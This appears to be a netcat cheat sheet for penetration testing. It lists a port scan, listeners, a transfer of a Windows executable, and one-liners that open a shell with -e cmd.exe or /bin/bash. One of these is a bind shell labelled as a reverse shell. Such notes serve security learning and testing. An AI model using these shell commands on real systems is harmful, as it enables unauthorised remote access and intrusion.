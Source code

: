 ## netcat / nc

#### Useful Links

[Linux Reverse Shells](https://www.lanmaster53.com/2011/05/27/7-linux-shells-using-built-in-tools/)

#### Quick Scans

###### Really fast scanner with 1 timeout value
`netcat -v -z -n -w 1 10.37.129.4 1-1023`

#### Read and write TCP and UDP Packets

##### Connect to a POP3 mail server
`nc -nv $ip 110`

##### Listen on TCP/UDP port
`nc -nlvp 4444`

##### Connect to a netcat port
`nc -nv $ip 4444`

##### Send a file using netcat
`nc -nv $ip 4444 &lt; /usr/share/windows-binaries/wget.exe`

##### Receive a file using netcat
`nc -nlvp 4444 &gt; incoming.exe`

##### Create a reverse shell with Ncat using cmd.exe on Windows
`nc -nlvp 4444 -e cmd.exe`

##### Create a reverse shell with Ncat using bash on Linux
`nc -nv $ip 4444 -e /bin/bash`
